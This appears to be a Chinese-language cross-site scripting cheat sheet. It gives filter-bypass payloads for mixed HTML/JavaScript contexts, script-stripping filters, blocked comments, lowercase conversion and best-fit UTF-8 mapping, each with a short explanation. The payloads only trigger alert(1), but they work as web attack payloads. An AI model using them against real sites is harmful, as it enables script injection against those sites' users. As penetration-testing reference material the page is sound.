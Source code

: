 

## 混合上下文反射实体绕过

**用于将脚本中被过滤的输入内容转换为实际有效的`javascript`代码。它需要在`HTML`和`JavaScript`上下文依次运行，并且彼此接近。`<svg>`标签会使下一个脚本会被以某种方法解析，即使单引号（'）在运行过程中被编码为`&#39;`或`&apos;`（经过清理），它任然可以有效跳出当前值并触发`alert`。以下是针对`javascript`场景的 payload，分别适用于：单引号被清理、单引号被完全转义、双引号被清理或完全转义 **

```javascript
">'-alert(1)-'<svg>
">&#39-alert(1)-&#39<svg>
">alert(1)-"<svg>
"&#34>alert(1)-&#34<svg>
```



## 绕过清除script的payload

**用于那些删除script的过滤器，即使删除`<script>`标签，它依然可以实现攻击**

```javascript
<svg/on<script><script>load=alert(1)//</script>
```



## Javascript代替注释

**当常规Javascript注释（如//）不被允许、被转义或移除时使用**

```javascript
<!--
%0A-->
```



## JavaScript 小写输入

**当目标应用程序通过`Javascript`将你的输入转换为小写时使用。它也可能适用于服务器端的小写操作。  **

```javascript
<SCRİPT>alert(1)</SCRİPT>
<SCRİPT/SRC=data:,alert(1)>
```



## 超长 UTF-8 编码

**当目标应用程序执行最佳拟合映射时使用**

- 最佳拟合映射是一种字符编码转换策略。当目标应用程序需要将一种字符编码（如 UTF-8）转换为另一种字符编码（如 ASCII）时，如果目标字符集不支持某些字符，应用程序会尝试将这些字符映射到最接近的有效字符。如：字符 `é`（Unicode 值为 `U+00E9`）在 ASCII 字符集中不存在。如果应用程序执行最佳拟合映射，它可能会将 `é` 映射到 `e`。

```javascript
%CA%BA>%EF%BC%9Csvg/onload%EF%BC%9Dalert%EF%BC%881)>
```
